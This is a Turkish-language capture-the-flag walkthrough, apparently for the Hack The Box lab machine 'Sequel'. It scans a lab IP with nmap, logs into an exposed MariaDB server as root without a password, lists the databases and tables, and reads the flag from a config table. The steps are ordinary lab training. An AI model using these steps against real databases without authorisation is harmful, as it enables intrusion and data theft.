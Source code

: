 ```yaml
---
glightbox: true
---
```


# Sequel

!!! info "Target IP Address"

    10.129.95.232

Hedef makine için Nmap taraması gerçekleştir:

```bash
sudo nmap 10.129.95.232 -sV -sC
```

```text title="Output" hl_lines="6"
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-21 23:30 +03
Nmap scan report for 10.129.95.232
Host is up (0.34s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
3306/tcp open  mysql?
| mysql-info:
|   Protocol: 10
|   Version: 5.5.5-10.3.27-MariaDB-0+deb10u1
|   Thread ID: 68
|   Capabilities flags: 63486
|   Some Capabilities: ConnectWithDatabase, ODBCClient, LongColumnFlag, IgnoreSpaceBeforeParenthesis, IgnoreSigpipes, InteractiveClient, Speaks41ProtocolOld, SupportsTransactions, FoundRows, Speaks41ProtocolNew, SupportsCompression, Support41Auth, DontAllowDatabaseTableColumn, SupportsLoadDataLocal, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|_  Auth Plugin Name: mysql_native_password

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 216.00 seconds
```

MySQL ile hedefe `root` kullanıcısı olarak giriş yap (kullanıcı `root` olduğunda parola istenmez):

```bash
mysql -h 10.129.95.232 -u root
```

Mevcut veri tabanlarını görüntülemek için aşağıdaki komutu çalıştır:

```text
show databases;
```

Öncelikle `htb` isimli veri tabanını seç:

```text
use htb;
```

Mevcut tabloları görüntülemek için aşağıdaki komutu gir:

```text
show tables;
```

```text title="Output"
+---------------+
| Tables_in_htb |
+---------------+
| config        |
| users         |
+---------------+
2 rows in set (0.142 sec)
```

Aşağıdaki komut ile bayrağı ele geçir:

```sql
SELECT * FROM config WHERE name = 'flag';
```
